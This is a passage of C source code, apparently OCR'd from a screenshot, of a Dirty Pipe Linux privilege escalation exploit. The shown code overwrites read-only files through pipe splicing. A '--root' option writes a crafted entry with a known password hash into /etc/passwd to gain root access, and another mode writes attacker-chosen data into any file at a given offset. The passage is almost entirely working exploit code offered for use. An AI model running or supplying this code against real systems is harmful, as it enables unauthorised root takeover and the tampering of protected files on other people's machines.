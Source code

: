 ```c

    // Use splice() to move data within the filesystem.
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
	if (nbytes < 0) {
		perror("[Dirty Pipe] Error: Splice operation failed");
		return EXIT_FAILURE;
	}
	if (nbytes == 0) {
		fprintf(stderr, "[Dirty Pipe] Error: Splice operation transferred fewer bytes than expected.\n");
		return EXIT_FAILURE;
	}

    // Write the actual data to the pipe.
	nbytes = write(p[1], data, data_size);
	if (nbytes < 0) {
		perror("[Dirty Pipe] Error: Failed to write data to the pipe");
		return EXIT_FAILURE;
	}
	if ((size_t)nbytes < data_size) {
		fprintf(stderr, "[Dirty Pipe] Error: Wrote fewer bytes to the pipe than expected.\n");
		return EXIT_FAILURE;
	}
    printf("[Dirty Pipe] Data successfully written to '%s'.\n", path);

    return EXIT_SUCCESS;
}

void print_help(const char *progname) {
    fprintf(stderr, "Usage:\n");
    fprintf(stderr, "  %s [--no-backup] [--root]\n", progname);
    fprintf(stderr, "  %s [--no-backup] <file_path> <offset> <data>\n", progname);
    fprintf(stderr, "\nOptions:\n");
    fprintf(stderr, "  --no-backup  Do not create a backup of the file before writing.\n");
    fprintf(stderr, "  --root        Apply root exploit on /etc/passwd.\n");
}

void handle_root_exploit(int no_backup) {
    if (!no_backup && backup_file("/etc/passwd") != EXIT_SUCCESS) {
        fprintf(stderr, "[Dirty Pipe] Error: Backup failed. Aborting...\n");
        exit(EXIT_FAILURE);
    }

    if (write_to_file("/etc/passwd", 4, ":$6$9WETWbCBTQ8pxg4I$odZAx8iIlayCnFdUwDM5dHVfsXXZo1RHRp2a4uQzcPDkRiTJYLA4loZESihn4ASGhWKN9.RWPT.CZJdyfTej4/:0:0:root:/root:/bin/sh\n") != EXIT_SUCCESS) {
        fprintf(stderr, "[Dirty Pipe] Error: Write operation failed. Aborting...\n");
        exit(EXIT_FAILURE);
    }
    printf("[Dirty Pipe] You can connect as root with password 'el3ph@nt!'\n");
}

void handle_custom_file(int no_backup, char *argv[], int index_shift) {
    const char *file_path = argv[1 + index_shift];
    loff_t offset = strtoll(argv[2 + index_shift], NULL, 10);
    const char *data = argv[3 + index_shift];

    if (!no_backup && backup_file(file_path) != EXIT_SUCCESS) {
        fprintf(stderr, "[Dirty Pipe] Error: Backup failed. Aborting...\n");
        exit(EXIT_FAILURE);
    }

    if (write_to_file(file_path, offset, data) != EXIT_SUCCESS) {
        fprintf(stderr, "[Dirty Pipe] Error: Write operation failed. Aborting...\n");
```